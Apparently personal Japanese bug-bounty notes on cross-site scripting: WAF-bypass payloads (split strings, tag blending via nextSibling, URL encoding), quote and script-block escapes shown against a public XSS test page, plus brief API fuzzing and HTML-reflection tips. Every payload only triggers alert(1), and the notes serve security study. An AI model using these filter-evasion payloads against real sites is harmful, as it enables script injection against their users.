 ### XSS

#### WAFバイパスについて
WAFは「(」と「)」の順序で括弧をキャッチする  
→文字列を複数の部分に分割したり、キーワードを分割したり、文字の順序を変更すればWAFを回避できる  

```
<svg+onload=location='javascript:alert(1)'>

↓これだとひっかかるから改造する

<svg onload=a=')',b='t(1',j='javas',s='cript:aler',location=j+s+b+a>

↓これをエンコードして実行する

%3Csvg%20onload%3Da%3D')'%2Cb%3D't(1'%2Cj%3D'javas'%2Cs%3D'cript%3Aaler'%2Clocation%3Dj%2Bs%2Bb%2Ba%3E

```

#### タグブレンディングによるWAFバイパス
nextSibling.innerTextを使用することで、次のタグの値を指定できる  
→これを利用してWAFバイパスをする

bタグで囲んだところを良いところで区切ってWAFバイパスを行う  

```
<svg onload=location=nextSibling.innerText>
<b>javas<b></b>cript:al<b></b>ert(1)</b>
```

↓inner/outerHTML プロパティベースのペイロードには次のものがある  

```
<svg onload=location=all[22].innerText>
<b>javas<b></b>cript:al<b></b>ert(1)</b>
```

また、ブラウザ開発ツール(F12キー)でconsole.log(document.all)を使用して、nextSibling要素が22個目にあったとした場合↓
```
<svg onload=innerHTML=nextSibling.innerText>
<b><img/src/on<b></b>error=al<b></b>ert(1)></b>
```

#### XSSテク

```
よく使う型
<svg onload=alert(1) />
http://brutelogic.com.br/xss.php?a=<svg onload=alert(1)>

記号のフィルタリングがされている場合はタグから抜け出せないからイベントハンドラーを使う  
以下は入力フィールド上にマウスをポイントすると発火する  
http://brutelogic.com.br/xss.php?b3=” onmouseover=alert(1)//
```

```

HTML injectionでブラウザの解析では HTML タグが優先されるため、ブロックを終了して新しいタグを挿入するだけで済む

<script>
	// HTMLi in Js Block (Single Quotes)
	var c1 = 'value1';

	// HTMLi in Js Block (Double Quotes)
	var c2 = "value2";

	// Simple Js Injection (Single Quotes)
	var c3 = 'value3';

	// Simple Js Injection (Double Quotes)
	var c4 = "value4";

	// Escaped Js Injection (Single Quotes)
	var c5 = 'value5';

	// Escaped Js Injection (Double Quotes)
	var c6 = "value6";

</script>

http://brutelogic.com.br/xss.php?c1=</script><svg onload=alert(1)>
```

```
フィルタリングされていて挿入しても以下のようになる場合
var myVar3 = '><svg onload=alert(1)>';

その場合は、以下のように-で連結することでエスケープできる
'-alert(1)-'
var myVar3 = ''-alert(1)-''

ただしこれに対してもバックスラッシュ(\)でフィルターされる場合は無効となる
以下が無効となる例:
var myVar5 = '\'-alert(1)-\'';

そのため上手くバックスラッシュを挿入して引用符が切れるようにする
http://brutelogic.com.br/xss.php?c5=\'-alert(1)//
↓
var myVar5 = '\\'-alert(1)//';


```


#### JavaScriptのホイスティングを利用したXSS
宣言されていないか存在しないオブジェクトへの参照により、JavaScript パーサーは ReferenceError をスローしてしまい、
うまくXSSがささらない場合は、既存の関数を再度使用(ホイスティング)してバイパスすることができる  
https://brutelogic.com.br/blog/xss-with-hoisting/

### API
各フレームワークにあったエンドポイントリストを使ってファジング→ヒットしたURIにアクセスしてクレデンシャルなデータを保持しているAPIを見つける
Reactであればapp.jsが/に相当するため、setting.jsにアクセスすれな/settingに入れたりする
https://www.bugbountyhunter.com/guides/?type=javascript_files

### HTML反映テスト
シンプルだけど強力
test<h2>test1
